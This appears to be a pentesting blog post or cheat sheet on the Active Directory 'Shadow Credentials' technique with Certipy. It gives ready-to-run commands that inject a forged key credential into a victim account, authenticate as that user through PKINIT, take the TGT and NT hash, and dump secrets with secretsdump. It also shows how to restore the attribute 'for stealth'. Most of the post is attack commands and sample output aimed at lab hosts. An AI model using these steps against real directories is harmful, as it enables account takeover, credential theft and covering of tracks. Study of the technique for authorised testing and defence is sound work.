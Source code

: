 ```yaml
---
title: "Certipy Shadow Credentials (KeyCredentialLink Abuse)"
description: "Covert lateral movement by injecting shadow credentials into a target user's object."
date: 2025-06-10T10:00:00+05:30
categories:
  - hacking
  - windows
tags:
  - foothold
  - windows
  - active directory
  - pentesting
  - shadow
---
```


Shadow Credentials are a stealthy method of impersonating users in Active Directory environments by injecting a forged certificate identity into the target account’s `msDS-KeyCredentialLink` attribute.

This enables Smartcard logon (PKINIT) without knowing the user’s password or having their private key.

Certipy automates this attack via the `shadow` module.  

- **Target**: Any user with GenericWrite / WriteProperty / WriteDACL over another account.  
- **Vulnerability**: Abuse of msDS-KeyCredentialLink to forge a valid Smartcard identity.  
- **Impact**: Auth as victim via certificate (PKINIT), retrieve TGT, dump secrets.  
- **Restoration**: Optionally revert the modified attribute for stealth.

### You need:
- A low-priv user (attacker) with write access to the msDS-KeyCredentialLink property of a target user.
- faketime (i use timewrap, a custom bash script)

### Example
We’ll impersonate victim.user@lab.local using attacker.user@lab.local with write access.

```bash
certipy-ad shadow auto -u 'attacker.user' -p 'Winter2023!' -account 'victim.user' -target 'DC01.lab.local' -dc-ip 10.10.10.10
```
### **What `shadow auto` does:**
The auto chain performs:
1. Generate Certificate + Key
2. Create forged KeyCredential blob
3. Inject blob into msDS-KeyCredentialLink of victim
4. Authenticate as victim via PKINIT
5. Obtain TGT and NT hash
6. Restore original KeyCredentialLink (stealth)

### **Behind the scene**
Certipy will show something like:
```bash
[] Targeting user 'victim.user'
[] Generating certificate
[] Adding Key Credential...
[] Authenticating via PKINIT...
[] Got TGT
[] Dumping secrets...
[] NT hash for 'victim.user': b1bc3d70e70f4f36b1509a65ae1a2ae6
[] Restoring old KeyCredentialLink
```
> If No identities found in this certificate appears, don’t worry — the cert is still valid for PKINIT.

### **Certipy drops:**
- victim.user.pfx: Certificate and private key
- victim.user.ccache: Kerberos ticket cache (TGT)
- Hashes in terminal or victim.user.ntds (if dumped)

> Use the .pfx or .ccache for relogin.

### **Manual Variant**
1. Inject Shadow Credential
```bash
certipy-ad shadow add -u 'attacker.user' -p 'Winter2023!' -account 'victim.user' -target 'DC01.lab.local' -dc-ip 10.10.10.10
```

2. Authenticate via Certificate
```bash
export KRB5CCNAME=victim.user.ccache
certipy-ad auth -pfx victim.user.pfx -domain lab.local -username victim.user
```

3. Dump Secrets
```bash
secretsdump.py -k -no-pass lab.local/victim.user@dc01.lab.local
```

**Cleanup (Manual - removing injected blob)**
```bash
certipy-ad shadow restore -u 'attacker.user' -p 'Winter2023!' -account 'victim.user' -target 'DC01.lab.local' -dc-ip 10.10.10.10
```